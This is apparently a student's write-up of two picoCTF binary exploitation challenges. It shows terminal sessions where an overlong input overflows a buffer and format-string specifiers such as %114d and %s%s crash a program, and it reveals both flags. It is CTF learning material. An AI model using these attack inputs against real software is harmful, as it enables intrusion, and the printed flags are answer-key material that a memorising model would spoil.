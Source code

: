 # Binary exploitation 
## Buffer overflow 0 
So i got very lucky with this one.
The source and the program would not open regardless of what I did. To my computer it simply did not exist. So i played around with the program trying to figure out what it was meant to do.
It would exit regardless of what input i gave. The name of the challenge was buffer overflow 0 so the thought process was "What if my input was just very long" cause there had to be a max limit to the input.
Turns out i was right.
I did look at the write up of this online to check the what the source and program were.
```
(base) Vijayakrishnas-MacBook-Pro:~ avani$ nc saturn.picoctf.net 60023nc saturn.picoctf.net 60023
nc: port range not valid
(base) Vijayakrishnas-MacBook-Pro:~ avani$ nc saturn.picoctf.net 60023
Input: a 
The program will exit now
(base) Vijayakrishnas-MacBook-Pro:~ avani$ nc saturn.picoctf.net 60023
Input: 3
The program will exit now
(base) Vijayakrishnas-MacBook-Pro:~ avani$ nc saturn.picoctf.net 60023
Input: 1kdohuygf73fb930761
The program will exit now
(base) Vijayakrishnas-MacBook-Pro:~ avani$ nc saturn.picoctf.net 60023
Input: 1983712ehniqubdqtwdbq807631dfqeg01 
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
```
## format string 0
Hint 2 said "to try out different options. 
While Hint 1 made us look at different format specifiers in C. <br>
```Gr%114d_Cheese```
Looked stood out to me because of the %114d. Its supposed to print a character with 114 characters and it triggers the program to serve Patrick.
Similarly with ```Cla%sic_Che%s%steak```
```
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}
```
